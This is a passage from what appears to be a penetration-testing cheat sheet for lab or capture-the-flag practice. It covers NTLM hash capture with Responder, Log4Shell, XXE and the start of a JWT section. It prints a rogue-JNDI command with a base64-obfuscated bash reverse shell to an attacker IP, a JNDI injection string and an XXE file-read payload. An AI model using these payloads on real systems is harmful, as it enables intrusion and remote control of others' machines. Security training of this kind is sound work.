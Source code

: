 #### NTLM <a name="ntlm"></a>

Windows New Technology LAN Manager (NTLM) is a suite of security protocols offered by Microsoft to authenticate users’ identity and protect the integrity and confidentiality of their activity. At its core, NTLM is a single sign on (SSO) tool that relies on a challenge-response protocol to confirm the user without requiring them to submit a password.

In order to mess with it, you might use the [responder](https://github.com/lgandx/Responder) tool.

The idea to bypass the NTLM is to force the target authenticate against a rogue SMB server (provided by `responder` tool). This tool will capture the authentication challenge hash and then you can use `john` tool to compare the hash with a dictionary to see if any entry matches.


#### Log4jShell <a name="log4j-shell"></a>

It was discovered that log4j libraries for certain versions were vulnerable to remote code execution. In order to do so, you setup a rogue JNDI/LDAP server from https://github.com/veracode-research/rogue-jndi in the attacker machine and send a JNDI command to the target machine to communicate with the rogue LDAP server to get a revershe shell on the attacker machine.

E.g.:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c
{echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-
d}|{bash,-i}" --hostname "10.10.14.33"
```
Start the rogue JNDI server that will start a reverse shell on 10.10.14.33 using the base64 payload provided.

Then, send the payload to force the target machine connect the rogue JNDI/LDAP server:

```
${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}
```

### XML eXternal Entities (XXE)

If the application is using XML to process any input data, it might be vulnerable to this kind of attacks.

This attack works because the XML parsers usually are configured with support for XML external entities. This is a feature of XML to be able to define objects outside the defined structure, but can be abuse to list internal files or to make connections to the outside of the target machine.

In order to check if the machine is vulnerable to this attack, you can try to show the contents of `/etc/hosts`(Linux) or `C:/Windows/System32/drivers/etc/hosts`(Windows). e.g.:

```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts" >]>
<order><quantity>2</quantity><item>&xxe;</item><address>Fake street 1234</address></order>
```

### JWT Key confussion attack

JWT Tokens are a way to sign and verify tokens that can contain important data such as credencials, roles, etc...

